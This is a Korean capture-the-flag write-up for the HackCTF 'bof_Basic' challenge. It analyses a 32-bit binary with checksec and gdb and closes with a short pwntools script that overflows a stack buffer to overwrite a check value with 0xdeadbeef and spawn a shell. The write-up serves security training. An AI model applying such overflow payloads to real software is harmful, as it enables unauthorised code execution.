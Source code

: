 ## [HackCTF] bof_Basic Writeup

---



### 0x00. Binary Analysis (Static)

---

![image](https://user-images.githubusercontent.com/33051018/75606334-ec577800-5b2e-11ea-8058-98abd131a06e.png)

`file` 명령을 통해 바이너리의 기본적 정보 획득. ( ex: ELF 32bit, not stripped, dynamically linked)

![image](https://user-images.githubusercontent.com/33051018/75606359-245ebb00-5b2f-11ea-8804-7387eedd98f9.png)

`checksec` 을 통해 `binary`에 적용된 보호기법 확인.



### 0x01. Binary Analysis (Dynamic)

---

일단 바이너리를 실행시켜보았다.

![image](https://user-images.githubusercontent.com/33051018/75606402-b2d33c80-5b2f-11ea-8b10-d19a9a68916e.png)

바이너리를 실행시키면 위 그림과 같이 바로 입력을 받은 이후 일련의 문자열을 출력한다.

`gdb` 를 통해 분석을 마저 진행한다.

![image](https://user-images.githubusercontent.com/33051018/75606437-05acf400-5b30-11ea-8375-e85ff59fb2ae.png)

`main` 함수를 `disassemble` 한 모습이다.

주요한 부분에 대해서만 설명을 진행한다.

`main+35~39`: `eax` 레지스터에 `ebp-0x34` 의 주소값을 입력 이후 `fgets` 함수 호출의 인자로 사용하기 위해 push

-> 여기서 `fgets` 가 앞서 바이너리를 실행했을 때 입력을 받는 부분임을 알 수 있으며 **`ebp-0x34`가 `buffer` 의 시작위치임을 알 수 있다. (이 문제를 푸는데에 있어 매우 중요한 key point)**

`main+54~59` :  `0x8048610`을 push하고 `printf` 함수를 호출한다. 즉, `0x8048610` 위치에 저장된 데이터가  `printf` 함수의 인자로 사용됨.

![image](https://user-images.githubusercontent.com/33051018/75606527-04c89200-5b31-11ea-83b7-9e16356e42ae.png)

해당 값을 `string` 포맷을 출력시켜보니 앞서 바이너리를 실행했을 때 출력되었던 문자열임을 확인할 수 있다.

![image](https://user-images.githubusercontent.com/33051018/75606564-5c66fd80-5b31-11ea-91a7-f5e3022e19c3.png)

(이 부분이 문제풀이의 핵심이 되는 분기 로직 부분)

`cmp` 와 `je` 명령을 통해 비교 이후 분기를 진행한다.

`main+127~137` : `ebp-0xc`값을 `0xdeadbeef`와 비교하여 다를 경우, `main+177`로 `EIP`를 이동시키고 프로그램을 종료한다.

`ebp-0xc` 부분을 `0xdeadbeef` 값으로 덮어씌워야 `system` 함수가 호출되며 쉘을 실행시킨다.



### 0x02. Exploit

---

앞서 우리는 버퍼가 시작되는 위치가 `ebp-0x34`임을 확인하였다. 

따라서, `ebp-0xc`에 도달하기 위해 `(ebp-0x34) - (ebp-0xc)` 만큼의 더미값 + `0xdeadbeef` 값으로 페이로드를 구성하여 프로그램에 전달하도록 한다.

```python
from pwn import *

p = process('./bof_basic')

payload = 'A' * (0x34-0xc)
payload += p32(0xdeadbeef)

p.sendline(payload)

p.interactive()
```



![image](https://user-images.githubusercontent.com/33051018/75606682-a43a5480-5b32-11ea-903d-650653feefe9.png)





